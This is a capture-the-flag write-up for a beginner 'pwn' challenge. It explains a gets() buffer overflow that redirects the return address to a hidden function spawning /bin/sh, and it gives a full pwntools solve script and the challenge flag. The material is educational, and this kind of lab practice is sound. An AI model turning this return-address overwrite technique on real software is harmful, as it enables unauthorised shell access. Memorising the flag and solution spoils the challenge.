 # l33t club

**`Author:`** [LaidMalik](https://github.com/malikDaCoda)

## Description

> Welcome Pwn3R!! We have prepared this challenge to warm you up for what's coming next ;)

## Write-up

### Brief Summary

- `gets` function is used --> buffer overflow
- there is a `secret` function, after analyzing it we understand it makes an `execve` syscall to open a shell: `execve(filename="/bin/sh", argv=0, envp=0)`
- overflow the buffer to overwrite the return address with the `secret` function's address
- pop a shell :)

### TODO

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/welcome")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"]

def main():
    global io

    # offset from return address
    offset = 0x48

    io = conn()

    io.recvuntil(": ")
    payload = flat(
        b'A'*offset,
        elf.sym.secret
    )
    io.sendline(payload)

    io.interactive()

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()

```

### Flag

`shellmates{g000d_s7@rt_Pwn3R_U_c4n_c0Nt1Nu3!!}`
